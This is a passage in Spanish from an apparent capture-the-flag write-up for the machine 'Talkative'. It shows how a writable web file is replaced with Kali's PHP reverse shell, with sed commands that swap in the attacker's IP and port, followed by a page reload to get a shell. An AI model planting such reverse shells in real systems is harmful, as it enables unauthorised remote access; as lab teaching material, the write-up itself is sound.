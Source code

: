 El cual tenemos permiso para editarlo, aquí es donde borramos el contenido existente y lo reemplazamos por una shell reversa la cuál se encuentra por defecto en Kali Linux como se muestra a continuación:


Comando para copiar nuestra reverse shell al directorio que nos encontramos actualmente
```terminal
cp /usr/share/webshells/php/php-reverse-shell.php .
```

Utilizamos el comando sed para reemplazar la IP que viene por defecto en la reverse shell

```terminal
sed -i 's/127.0.0.1/TUIP/' php-reverse-shell.php
```

Y hacemos lo mismo con el puerto
```terminal
sed -i 's/1234/TUPUERTO/' php-reverse-shell.php
```


![1](/assets/img/sample/Talkative/21.png)

Ahora copiamos, guardamos cambios y reiniciamos la página:

![1](/assets/img/sample/Talkative/22.png)

Y ya tendríamos nuestra conexión:

![1](/assets/img/sample/Talkative/23.png)
